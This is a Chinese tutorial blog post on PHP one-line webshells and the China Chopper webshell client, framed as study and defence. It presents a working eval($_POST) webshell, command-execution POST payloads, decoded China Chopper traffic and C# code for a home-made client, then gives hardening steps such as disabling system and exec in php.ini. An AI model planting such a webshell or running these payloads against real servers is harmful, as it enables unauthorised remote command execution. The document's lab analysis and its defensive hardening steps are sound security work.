## 引言

未知攻，焉知防。本文仅用来研究及学习PHP一句话木马及中国菜刀软件的原理及防御。

---

## 什么是PHP一句话木马

还是以栗子说明：



上图是一个最简单的PHP一句话木马。简单的解释一下：
``@``不在前端网页显示报错信息
``eval()``函数 — 把字符串作为PHP代码执行.
``$_POST['abcd']`` 创建一个名为abcd的变量，通过_POST请求传入数据
这么简单的一句话可以产生什么效果呢？

举另一个栗子，来看一下：
1.搭建一个php网站环境，为了方便我用的PHPStudy，然后创建一个新的PHP文件，将上图代码写入并保存。



2.访问一下，好像并没有什么异常

3.然后以非正常姿势访问一下。发送一个POST请求，我使用的是Firefox浏览的hackbar插件（强烈推荐非常好用），hackbar可以在Firefox 插件商店下载，当然也可以用Burp发包不过我感觉比较麻烦。
使用Firefox访问测试页面，按F12键，选择HackBar



4.点击Load URL，载入当前访问的地址



5.勾选Post data，输入abcd=phpinfo();,点击Execute执行一下。
```php
abcd=phpinfo();
```


6.phpinfo()函数已经执行，并在前端显示出来了。好像并没有什么猪皮用？，来试试输入一下下面的代码并执行

```php
abcd=system(calc);
```



7.？？？计算器怎么弹出来了？在搞些蛇皮？解释一下：
``system()`` 函数-执行系统命令
``calc`` CMD命令打开计算器
当把这个POST传到服务器时，相当于在服务器上执行了下面这段代码：

```php
<?php
@eval('system(calc);');
?>
```

上面解释过eval()函数的作用：将字符串当作PHP代码执行。也就是说，利用这两个函数我们就可以在服务器上为所欲为之为所欲为了（又加快了入狱速度，很开心？）。

---

## 什么是中国菜刀

中国菜刀是一款专业的“网站管理”软件，用途广泛，使用方便，小巧实用。只要支持动态脚本的网站，都可以用中国菜刀来进行“管理”！在非简体中文环境下使用，自动切换到英文界面。UINCODE方式编译，支持多国语言输入显示。----某百科说的，不是我说的！
支持的服务端脚本：PHP, ASP，.NET。
可以理解为一个封装好的eval()函数加system()的POST请求利用工具，常常被一些黑客用作非法用途。
---
## 分析中国菜刀的POST请求信息

1.首先，打开Wireshark监听一下网卡。



2.用菜刀给靶机弹个计算器


3.找到刚才菜刀发出去的包



4.把数据粘贴出来看一下，好像看到了eval?

```
abcd=%40eval%01%28base64_decode%28%24_POST%5Bz0%5D%29%29%3B&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3Jz
IiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskcD1iYXNl
NjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWR
VJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwf
SB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC
0iKTtkaWUoKTs%3D&z1=Y21k&z2=Y2QgL2QgIkM6XHBocFN0dWR5XFBIUFR1dG9yaWFsXFdXV1wiJmNhbGMmZWNobyBb
U10mY2QmZWNobyBbRV0%3D
```

5.Wireshark复制出来的是还没经过URL解码的，解码看一下：

```
abcd=@eval(base64_decode($_POST[z0]));&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1p
dCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk\
7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdK
TskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4m
MSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs=&z1=Y21k&z2=Y2Q
gL2QgIkM6XHBocFN0dWR5XFBIUFR1dG9yaWFsXFdXV1wiJmNhbGMmZWNobyBbU10mY2QmZWNobyBbRV0=
```

6.好像看到了z0、z1、z2三个变量？整理一下：

```
abcd=@eval(base64_decode($_POST[z0]));
&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50a
W1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbIn
oyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyB
cInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIK
cmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs=
&z1=Y21k
```

7.看起来z0、z1、z2三个变量的值经过Base64编码了，解一下码看看：

```php
abcd=@eval(base64_decode($_POST[z0]));
&z0=@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("-
>|");;$p=base64_decode($_POST["z1"]);$s=base64_decode($_POST["z2"]);$d=dirname($_SERVER["SCRIPT_FILENAME"]);$
c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";$r="{$p} {$c}";@system($r." 2>&1",$ret);print ($ret!=0)?"
ret={$ret}
":"";;echo("|<-");die();
&z1=cmd
&z2=cd /d "C:\phpStudy\PHPTutorial\WWW\"&calc&echo [S]&cd&echo [E]
```

8.整理一下，把图片保存下来看更清晰：


&z2经过上面的判断处理后成为:

```shell
/c &cd /d "C:\phpStudy\PHPTutorial\WWW\"&calc&echo [s]&cd&echo [E]
```

&amp;z1和&amp;z2拼接起来后是一条完整的CMD命令:

```shell
cmd /c &cd /d "C:\phpStudy\PHPTutorial\WWW\"&calc&echo [s]&cd&echo [E]
```

/c 参数，执行完命令后关闭命令窗口
&amp; 在一条语句中执行多个命令
/d 直接进入指定目录
cd 不带参数和选项，输出当前物理路径
这句命令解释为：打开cmd，执行cd入后面的目录，calc弹出计算器，echo出标之符[s]，打印出当前目录，echo出标志符[E]

为什么要echo出标识符[S][E]，有什么用呢？
很多情况下一句话木马是嵌入到某些页面中的，也就是页面输出内容除了命令执行结果还有网页中的其他内容，这就需要在Request爬取页面后用正则匹配或其他方式找到我们想要的命令执行结果。这里的[S][E]只是要匹配出&amp;cd命令的执行结果，前面还有echo("|>-")echo("|&lt;-"),是为了匹配出我们想要的所有结果。

两个标识符[S][E]中间为什么要打印出当前目录？
这就要从程序实现上解释了，当我们不考虑路径时，我们可以使用system()执行任何想要的命令。但由于PHP的特性，在页面执行完毕后对应的程序生命周期也就结束了，变量会被重置，举个栗子：

```php
<?php
$i=1;
$i++;
echo $i;
?>
```

当我们第一次打开页面时，代码从上到下执行，页面输出2，该页面的程序生命周期结束。当我们刷新页面时，程序重新进入生命周期，依然是从上到下执行，输出2。
当我们执行``cd ..``这种更改路径的命令时，网页执行命令，进入上级路径C:\phpStudy\PHPTutorial。``cd ..``是根据相对路径执行的，也就是相对于网页文件的目录。但是，当我们下次再执行cd ..命令时，由于PHP的特性，依然是从网页文件所在目录执行 ``cd ..`` 。
所以我们要保存下来cd ..的执行结果，也就是&amp;cd打印出来然后保存下来，然后配合命令前半部分的 ``cmd /c &amp;cd /d "C:\phpStudy\PHPTutorial\WWW\" ``,把其中的路径当作一个参数，下次执行时只需要将打印保存下来的路径作为参数填到命令中，就像这样``cmd /c &amp;cd /d "C:\phpStudy\PHPTutorial\" ``完解决了路径问题。
（菜刀作者写的PHP代码和Shell是真的骚）。

---

# 实现简单的菜刀

中国菜刀的工作原理大致可分为三个步骤：

1. 构造POST请求
2. 发送POST请求并爬取页面信息
3. 处理信息（包括获取命令执行结果，以及更新路径）

首先看一下构造POST请求的轮子长什么样，先上代码：
和python中的Requests包类似，也是用字典构造请求参数。



然后看一下发送POST请求并爬取页面的轮子：



最后处理信息就需要自己发明轮子了：
我的PHP代码只有一句话很简单（骚不过，骚不过）

```php
string phpCode = string.Format("echo ' [h2o]'; @eval($_POST[z0]); &z0=$r=base64_decode($_POST[z1]); @system($r,$ret); 
if($ret!=0) echo $ret;echo '[h2o] '; &z1={0}", cmd);  //php代码
```

因为初始化的时候需要先获取路径，获取路径只需要执行php的``getcwd()``方法即可，所以我发明了两个轮子，一个执行PHP代码的轮子，一个执行CMD命令的轮子。为什么要这么做呢？因为这样不论我执行PHP代码还是CMD命令，只需要调用相应的方法传入参数就可以了。




# 正文，如何防范PHP一句话木马

方法一：Windows下，Apache默认是System权限运行，哇贼恐怖！我们来给Apache降降权吧。执行下面的命令。

```shell
net user apache fuckmicrosoft /add #新建一个用户，用户名apache,密码fuckmicrosoft
net localgroup users apache /del #把apache用户从users用户组中删除，这样apache就不属于任何用户组了
```

然后设置apache服务的账户:



方法二：禁用system、exec等可以执行webshell的方法。
1.打开php.ini
2.设置``disable_functions= passthru，exec，shell_exec，system``

方法三：修改httpd.conf，只允许php脚本程序在web目录里操作：
``php_admin_value open_basedir web物理路径``

方法四：待补充~

---

## 参考资料

[PHP官方API](http://www.php.net/docs.php)
[Windows CMD命令大全](https://www.cnblogs.com/accumulater/p/7110811.html)
[CMD /C 和CMD /k命令](http://houliang4285.iteye.com/blog/1687816)
[技术剖析中国菜刀原理](https://blog.csdn.net/gscaiyucheng/article/details/24911375)
[中国菜刀原理浅分析](http://www.ifuryst.com/archives/caidao.html)
[CKnife源码](https://gitee.com/week233/Cknife)
[牢底坐穿工具箱](https://gitee.com/week233/ARPAttack)